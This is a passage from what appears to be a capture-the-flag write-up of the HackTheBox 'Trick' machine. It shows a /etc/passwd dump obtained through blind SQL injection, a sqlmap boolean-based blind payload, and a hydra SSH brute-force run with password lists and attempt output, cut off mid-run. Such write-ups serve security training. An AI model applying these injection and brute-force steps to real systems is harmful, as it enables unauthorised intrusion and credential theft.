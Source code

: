 	colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
	geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin
	hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
	Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
	systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
	mysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/false
	sshd:x:118:65534::/run/sshd:/usr/sbin/nologin
	postfix:x:119:126::/var/spool/postfix:/usr/sbin/nologin
	bind:x:120:128::/var/cache/bind:/usr/sbin/nologin
	michael:x:1001:1001::/home/michael:/bin/bash
	```
	- `michael`
	- This will take quite long because it is done by `time-based blind` SQLi
9. There is another SQLi vulnerability at `Employees List` that is exploited by `boolean blind` SQLi, allowing us to read the file much quicker
   ![]({{ page.img_path }}Pasted%20image%2020220727050128.png)
	```
	Parameter: id (POST)
	    Type: boolean-based blind
	    Title: Boolean-based blind - Parameter replace (original value)
	    Payload: id=(SELECT (CASE WHEN (8486=8486) THEN '' ELSE (SELECT 9870 UNION SELECT 4043) END))&firstname=test&middlename=test&lastname=test&department_id=3&position_id=4&salary=123
	
	
	[*] starting @ 05:09:56 /2022-07-27/
	
	[*] ending @ 05:20:52 /2022-07-27/
	```
10. Bruteforce SSH 
	```
	┌──(root💀kali)-[~/htb/trick/10.10.11.166]
	└─# cat usernames.txt 
	root
	mysql
	Enemigosss
	remo
	michael┌──(root💀kali)-[~/htb/trick/10.10.11.166]
	└─# cat passwords.txt 
	SuperGucciRainbowCake
	TrulyImpossiblePasswordLmao123
	
	┌──(root💀kali)-[~/htb/trick/10.10.11.166]
	└─# hydra -L usernames.txt -P passwords.txt ssh://10.10.11.166 -V
	Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
	
	Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-27 05:06:47
	[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
	[DATA] max 10 tasks per 1 server, overall 10 tasks, 10 login tries (l:5/p:2), ~1 try per task
	[DATA] attacking ssh://10.10.11.166:22/
	[ATTEMPT] target 10.10.11.166 - login "root" - pass "SuperGucciRainbowCake" - 1 of 10 [child 0] (0/0)
	[ATTEMPT] target 10.10.11.166 - login "root" - pass "TrulyImpossiblePasswordLmao123" - 2 of 10 [child 1] (0/0)
	[ATTEMPT] target 10.10.11.166 - login "mysql" - pass "SuperGucciRainbowCake" - 3 of 10 [child 2] (0/0)
	[ATTEMPT] target 10.10.11.166 - login "mysql" - pass "TrulyImpossiblePasswordLmao123" - 4 of 10 [child 3] (0/0)
	[ATTEMPT] target 10.10.11.166 - login "Enemigosss" - pass "SuperGucciRainbowCake" - 5 of 10 [child 4] (0/0)
	[ATTEMPT] target 10.10.11.166 - login "Enemigosss" - pass "TrulyImpossiblePasswordLmao123" - 6 of 10 [child 5] (0/0)